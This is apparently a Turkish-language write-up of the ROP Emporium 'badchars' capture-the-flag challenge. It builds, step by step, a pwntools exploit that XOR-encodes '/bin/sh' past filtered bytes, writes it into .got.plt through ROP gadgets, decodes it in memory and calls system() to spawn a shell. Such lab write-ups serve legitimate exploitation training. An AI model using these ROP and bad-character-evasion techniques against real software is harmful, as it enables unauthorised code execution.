




# ROP Emporium `badchars` Writeup



x64 mimaride dosyamızı indirdik.

Bu bölümde girdiğimiz karakterlerin bazıları kontrolde geçmektedir.



Çalıştırmak istediğimiz `/bin/sh` komutunun içerisindeki birçok karakter gördüğümüz üzere `badchars` olarak belirlenmiş bulunmakta. Bizden de bu problemi çözerek komutumuzu çalıştırmamız beklenmektedir.

Bunun için öncelikle `usefulGadgets` isimli fonksiyonumuza bakalım.



`xor` işlemi olduğunu görüyoruz. O halde `/bin/sh` komutumuzu xor işlemine sokabiliriz.

```python
# ROP Emporium badchars Exploit

bin_sh = "/bin/sh\x00"
xor_byte = 0x2
xor_bin_sh = ""

for i in bin_sh:
    xor_bin_sh += chr(ord(i) ^ xor_byte)

print("Encoded /bin/sh = " + xor_bin_sh)

```

```bash
[alp@eren]$ python exploit.py
Encoded /bin/sh = -`kl-qj
```

Komutumuzun 2 ile `xor` işleminin sonucuna baktığımız zaman herhangi bir sıkıntı olmadığını görebiliriz.

Planımız şu şekilde:

  - `xor_bin_sh` adresimiz ve `.got.plt` adresimizi birer registera kaydedip daha sonra `xor_bin_sh` i  `.got.plt` alanımıza kaydedeceğiz.

  - `.got.plt` içerisine kaydettiğimiz `/bin/sh` komutunu decode edeceğiz

  - `.got.plt` adresimizi arg0 registerımıza kaydettikten sonra `system` fonksiyonunu çağıracağız.

Bize gerekli olan adresleri bulalım...

```bash
gdb-peda$ ropsearch "pop r12"
Searching for ROP gadget: 'pop r12' in: binary ranges
0x00400b3b : (b'415c415dc3')	pop r12; pop r13; ret
```

```bash
gdb-peda$ ropsearch "pop r14"
Searching for ROP gadget: 'pop r14' in: binary ranges
0x00400b40 : (b'415e415fc3')	pop r14; pop r15; ret
0x00400bb0 : (b'415e415fc3')	pop r14; pop r15; ret
```

```bash
gdb-peda$ disas usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x0000000000400b30 <+0>:	xor    BYTE PTR [r15],r14b
   0x0000000000400b33 <+3>:	ret    
   0x0000000000400b34 <+4>:	mov    QWORD PTR [r13+0x0],r12
   ...
```

```bash
[alp@eren]$ objdump -d badchars| grep "system"
00000000004006f0 <system@plt>:
```

```bash
gdb-peda$ ropsearch "pop rdi"
Searching for ROP gadget: 'pop rdi' in: binary ranges
0x00400b39 : (b'5fc3')	pop rdi; ret
0x00400b43 : (b'5fc3')	pop rdi; ret
0x00400bb3 : (b'5fc3')	pop rdi; ret
```

İhtiyacımız olan herşeyi bulduk gibi artık exploitimizi yazmaya başlayabiliriz.

```python
# ROP Emporium badchars Exploit

from pwn import *

got_plt = p64(0x00601000) # .got.plt address
system = p64(0x004006f0)  # system@plt address

pop_r12_r13 = p64(0x00400b3b) # pop r12; pop r13; ret
mov_r13_r12 = p64(0x00400b34) # mov qword ptr [r13], r12

pop_r14_r15 = p64(0x00400b40) # pop r14; pop r15; ret
xor_r15_r14 = p64(0x00400b30) # xor byte ptr [r15], r14b

pop_rdi = p64(0x00400b39) # pop rdi; ret

offset = "A"*40

bin_sh = "/bin/sh\x00"
xor_byte = 0x2
xor_bin_sh = ""

# encoded /bin/sh
for i in bin_sh:
    xor_bin_sh += chr(ord(i) ^ xor_byte)

```

Adreslerimizi yerleştirdik. Şimdi öncelikle belleğimizi doldurtuktan sonra `r12` registerına `xor_bin_sh` değerimizi, `r13` registerına ise `.got.plt` adresimizi yazacağız. `mov_r13_r12` ile de kayıt etmiş olacağız


```python

# ROP Emporium badchars Exploit

from pwn import *

got_plt = p64(0x00601000) # .got.plt address
system = p64(0x004006f0) # system@plt

pop_r12_r13 = p64(0x00400b3b) # pop r12; pop r13; ret
mov_r13_r12 = p64(0x00400b34) # mov qword ptr [r13], r12

pop_r14_r15 = p64(0x00400b40) # pop r14; pop r15; ret
xor_r15_r14 = p64(0x00400b30) # xor byte ptr [r15], r14b

pop_rdi = p64(0x00400b39) # pop rdi; ret

offset = "A"*40

bin_sh = "/bin/sh\x00"
xor_byte = 0x2
xor_bin_sh = ""

for i in bin_sh:
    xor_bin_sh += chr(ord(i) ^ xor_byte)

payload = offset.encode()
payload += pop_r12_r13
payload += xor_bin_sh.encode()
payload += got_plt
payload += mov_r13_r12

```

XOR işlemi ile encode ettiğimiz `/bin/sh` komutumuzu belleğimizin içerisine kaydettikten sonra bunu artık bellek içerisinde decode etmemiz gerekecek. Böylece `badchars` olarak tanımlanmış karakterlere takılmadan başarılı bir şekilde komutumuz bellek içerisine yazılmış olacaktır

```python

# ROP Emporium badchars Exploit

from pwn import *

got_plt = p64(0x00601000) # .got.plt address
system = p64(0x004006f0)  # system@plt address

pop_r12_r13 = p64(0x00400b3b) # pop r12; pop r13; ret
mov_r13_r12 = p64(0x00400b34) # mov qword ptr [r13], r12

pop_r14_r15 = p64(0x00400b40) # pop r14; pop r15; ret
xor_r15_r14 = p64(0x00400b30) # xor byte ptr [r15], r14b

pop_rdi = p64(0x00400b39) # pop rdi; ret

offset = "A"*40

bin_sh = "/bin/sh\x00"
xor_byte = 0x2
xor_bin_sh = ""

for i in bin_sh:
    xor_bin_sh += chr(ord(i) ^ xor_byte)

payload = offset.encode()
payload += pop_r12_r13
payload += xor_bin_sh.encode()
payload += got_plt
payload += mov_r13_r12

for x in range(len(xor_bin_sh)):
    payload += pop_r14_r15
    payload += p64(xor_byte)
    payload += p64(0x601000 + x) # .got.plt address + x
    payload += xor_r15_r14

```

Decode işlemini de gerçekleştirdikten sonra artık `rdi` yani arg0 değeri alan registerımızın üzerine `.got.plt` adresimizi yazmaya geldi. Daha sonra `system` fonksiyonumuzu çağırarak bellek içerisinde decode etmiş olduğumuz komutumuzu çalıştıracağız.

```python

# ROP Emporium badchars Exploit

from pwn import *

got_plt = p64(0x00601000) # .got.plt address
system = p64(0x004006f0)  # system@plt address

pop_r12_r13 = p64(0x00400b3b) # pop r12; pop r13; ret
mov_r13_r12 = p64(0x00400b34) # mov qword ptr [r13], r12

pop_r14_r15 = p64(0x00400b40) # pop r14; pop r15; ret
xor_r15_r14 = p64(0x00400b30) # xor byte ptr [r15], r14b

pop_rdi = p64(0x00400b39) # pop rdi; ret

offset = "A"*40

bin_sh = "/bin/sh\x00"
xor_byte = 0x2
xor_bin_sh = ""

for i in bin_sh:
    xor_bin_sh += chr(ord(i) ^ xor_byte)

payload = offset.encode()
payload += pop_r12_r13
payload += xor_bin_sh.encode()
payload += got_plt
payload += mov_r13_r12

for x in range(len(xor_bin_sh)):
    payload += pop_r14_r15
    payload += p64(xor_byte)
    payload += p64(0x601000 + x) # .got.plt address + x
    payload += xor_r15_r14

payload += pop_rdi
payload += got_plt
payload += system

elf = process("./badchars")
print (elf.recv())
elf.sendline(payload)
elf.interactive()

```

Exploitimiz bu kadar. Artık çalıştırıp `flag.txt` dosyasını okuyabiliriz.


